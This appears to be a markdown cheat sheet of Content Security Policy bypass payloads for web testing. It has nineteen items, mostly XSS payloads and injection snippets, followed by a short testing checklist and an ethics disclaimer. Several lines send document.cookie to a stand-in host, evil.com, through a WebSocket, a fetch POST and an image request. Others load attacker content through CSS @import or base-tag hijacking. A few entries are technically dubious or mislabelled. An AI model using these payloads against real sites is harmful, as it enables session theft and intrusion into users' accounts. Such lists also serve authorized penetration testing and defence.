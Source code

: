 # Content Security Policy (CSP) Bypass Techniques

Below are various payloads and techniques to bypass Content Security Policy restrictions when testing web applications. These methods attempt to circumvent CSP protections by exploiting misconfigurations and implementation weaknesses.

## Basic CSP Bypass Techniques

### 1. Inline Script Execution
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
```

### 2. Data URI Bypass
```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
```

## Script Source Bypasses

### 3. Whitelisted Domain Abuse
```html
<script src="https://trusted.example.com/xss.js"></script>
<!-- If trusted.example.com allows file uploads -->
```

### 4. JSONP Endpoint Abuse
```html
<script src="/api/jsonp?callback=alert(1)//"></script>
```

### 5. AngularJS Injection (when Angular is allowed)
```html
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

## Nonce/Hash Bypass Techniques

### 6. Nonce Prediction/Reuse
```html
<script nonce="abc123">alert(1)</script>
<!-- If nonce is reused or predictable -->
```

### 7. Hash Collision
```html
<script>alert(1)</script>
<!-- If hash of this exact script is in CSP -->
```

## CSS-Based Bypasses

### 8. CSS Injection
```html
<style>
@import 'http://evil.com/xss.css';
</style>
```

### 9. CSS Selector Abuse
```html
<link rel="stylesheet" href="https://example.com/styles.css?x=;body{background:red;}">
```

## Advanced CSP Bypasses

### 10. Base Tag Hijacking
```html
<base href="https://evil.com/">
<!-- Followed by relative path script includes -->
```

### 11. WebSocket CSP Bypass
```javascript
new WebSocket("wss://evil.com/").send(document.cookie);
```

### 12. Service Worker Bypass
```javascript
navigator.serviceWorker.register('/sw.js').then(() => {
  navigator.serviceWorker.controller.postMessage(document.cookie);
});
```

## CSP Directive Specific Bypasses

### 13. `script-src-elem` Bypass
```html
<script src="https://cdn.example.com/angular.js"></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

### 14. `connect-src` Bypass
```javascript
fetch('https://evil.com/exfil', {
  method: 'POST',
  body: document.cookie
});
```

### 15. `img-src` Bypass
```html
<img src="https://evil.com/x?=document.cookie">
```

## Browser-Specific Bypasses

### 16. Safari Universal XSS
```html
<iframe src="javascript:alert(1)"></iframe>
```

### 17. Edge HTML Injection
```html
<embed src="data:text/html,<script>alert(1)</script>">
```

## Polyglot Payloads

### 18. SVG/HTML Polyglot
```html
<svg><script>alert(1)</script></svg>
```

### 19. MathML/HTML Polyglot
```html
<math><mtext><script>alert(1)</script></mtext></math>
```

## Testing Methodology

1. Review CSP header for weaknesses
2. Test all allowed sources for injection points
3. Attempt to bypass nonce/hash protection
4. Check for AngularJS or other framework vulnerabilities
5. Test for open redirects on whitelisted domains
6. Verify CSP implementation in different browsers
7. Check for CSP report-only mode misconfigurations

## Important Notes

- These techniques should only be used in authorized testing
- CSP bypass may lead to XSS vulnerabilities
- Many bypasses are browser-specific
- Document all testing with proper authorization
- Respect the site's security policies

Remember that CSP implementations vary significantly between applications. What works on one system may not work on another. Always test carefully and ethically.